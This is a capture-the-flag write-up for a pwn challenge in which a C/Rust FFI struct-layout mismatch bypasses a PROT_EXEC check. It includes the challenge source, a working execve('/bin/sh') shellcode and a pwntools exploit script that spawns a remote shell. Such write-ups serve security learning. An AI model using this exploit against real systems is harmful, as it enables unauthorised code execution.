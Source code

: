 
# Provided Files
- chal.c
- chal
- lib.rs
- libi_love_ffi.so
- Dockerfile

```c filename="chal.c"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <stddef.h>
#include <unistd.h>
#include <sys/mman.h>

struct MmapArgs {
    uint64_t * addr;
    uint64_t length;
    int protection;
    int flags;
    int fd;
    uint64_t offset;
};

extern struct MmapArgs mmap_args();

int main () {
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    struct MmapArgs args = mmap_args();
    char * buf = mmap(args.addr, args.length, args.protection, MAP_PRIVATE | MAP_ANON, args.fd, args.offset);
    if (buf < 0) {
        perror("failed to mmap");
    }

    read(0, buf, 0x1000);

    printf("> ");
    int op;
    if (scanf("%d", &op) == 1) {
        switch (op) {
            case 0:
                ((void (*)(void))buf)();
                break;
            case 1:
                puts(buf);
                break;
        }
    }
}
```

```rs filename="lib.rs"
#![allow(warnings)]

pub struct MmapArgs {
    addr: u64,
    length: u64,
    protection: u32,
    flags: u32,
    fd: u32,
    offset: u64,
}

#[no_mangle]
pub extern "C" fn mmap_args() -> MmapArgs {
    let args = MmapArgs {
        addr: read::<u64>(),
        length: read::<u64>(),
        protection: read::<u32>(),
        flags: read::<u32>(),
        fd: read::<u32>(),
        offset: read::<u64>(),
    };

    if args.protection & 4 != 0 {
        panic!("PROT_EXEC not allowed");
    }

    args
}
```

# Intended
The challenge provides the source for `chal` and `libi_love_ffi.so` in `chal.c` and
`lib.rs` respectively. On the Rust side, an `mmap_args` function is defined that
sets up the arguments and passes them over to C to execute. The Rust performs some
basic checks to prevent passing the `PROT_EXEC` flag in the protections field, which
should prevent allocating shellcode.

However, although the struct definitions in Rust and C are equivalent with the
layout and types exactly the same, when you are compiled they are generated
differently. Modern compilers will typically pad struct fields so that memory
accesses to those fields are faster. The problem is that Rust and C have different
padding behavior. C will attempt to align struct fields to their memory size, but
will maintain struct order. Rust will also attempt to align struct fields to their
memory size, but will not maintain struct order.

## memory layout
| offset | C          | Rust       |
|:-------|:-----------|:-----------|
| 0x00   | addr       | addr       |
| 0x04   | addr       | addr       |
| 0x08   | length     | length     |
| 0x0C   | length     | length     |
| 0x10   | protection | offset     |
| 0x14   | flags      | offset     |
| 0x18   | fd         | protection |
| 0x1C   | [ unused ] | flags      |
| 0x20   | offset     | fd         |
| 0x24   | offset     | [ unused ] |

As we can see in the above chart, the fields in Rust dont match up one-to-one to the
struct fields on the C side. This allows us to bypass the protection check in rust
and allocate shellcode.

## Solution
```x86asm filename="shellcode.asm" open
    bits 64
    
_start:
    mov rax, `/bin/sh`
    push rax
    mov eax, 0x3b
    mov rdi, rsp
    xor esi, esi
    xor edx, edx
    syscall
```

```python filename="main.py" open
from pwn import *

p = remote(args.HOST, args.PORT)

for n in [0, 0x1000, 0, 0, 0, 7]:
    p.sendlineafter(b"> ", str(n).encode())

p.send(open("shellcode", "rb").read().ljust(4096, b"\x00"))
p.sendlineafter(b"> ", b"0")

p.interactive()
```

# Unintendeds
No unintendeds :D